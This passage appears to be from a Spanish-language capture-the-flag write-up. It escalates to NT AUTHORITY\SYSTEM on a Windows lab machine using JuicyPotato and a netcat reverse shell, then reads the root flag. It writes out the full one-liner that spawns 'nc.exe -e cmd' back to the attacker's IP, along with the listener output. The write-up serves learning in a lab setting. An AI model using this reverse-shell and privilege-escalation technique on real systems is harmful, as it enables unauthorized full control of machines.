 Bien, ahora vamos a mandar una **cmd** como **NT Authority System** a nuestra máquina. Para esto, hagamos lo siguiente:

* Abre una **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
```

* Usa el siguiente oneliner usando **JuicyPotato.exe** y la **nc.exe**:
```batch
PS C:\Windows\Temp\Privesc> .\JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd Tu_IP 1337"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
```

* Veamos la **netcat** y ya estaremos conectados:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.93] 49167
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```
Afortunadamente no nos pidio un **CLSID**, por lo que fue más sencillo utilizar el **Juicy Potato**.

* Ya solo busca la flag que te falta:
```batch
C:\Windows\system32>cd ../../Users
cd ../../Users
C:\Users>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0
 Directory of C:\Users
05/31/2018  12:18 AM    <DIR>          .
05/31/2018  12:18 AM    <DIR>          ..
05/31/2018  12:18 AM    <DIR>          Administrator
05/30/2018  04:44 AM    <DIR>          Classic .NET AppPool
05/30/2018  12:22 AM    <DIR>          merlin
05/30/2018  05:44 AM    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  11,884,220,416 bytes free
C:\Users>cd Administrator/Desktop
cd Administrator/Desktop
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0
 Directory of C:\Users\Administrator\Desktop
05/31/2018  12:18 AM    <DIR>          .
05/31/2018  12:18 AM    <DIR>          ..
04/25/2023  10:17 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  11,884,220,416 bytes free
C:\Users\Administrator\Desktop>type root.txt
```
Y con esto ya tendremos la máquina terminada.
